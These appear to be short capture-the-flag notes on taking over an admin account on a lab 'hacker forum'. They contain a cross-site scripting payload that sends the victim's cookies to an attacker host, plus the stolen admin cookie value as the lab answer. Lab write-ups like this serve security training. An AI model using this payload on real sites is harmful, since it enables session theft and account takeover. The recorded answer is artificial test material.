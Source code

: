 # ELF JS

```
Gaining admin access to hacker forum
IP:3000
XSS to steal cookie maybe
```

## Notes

```
export IP=10.10.47.211

```

## Questions

1. What is the admin's authid cookie value?

```
<script>document.location="ncip?" + document.cookie</script>

will need to wait some time to get admin cookie

2564799a4e6689972f6d9e1c7b406f87065cbf65
```
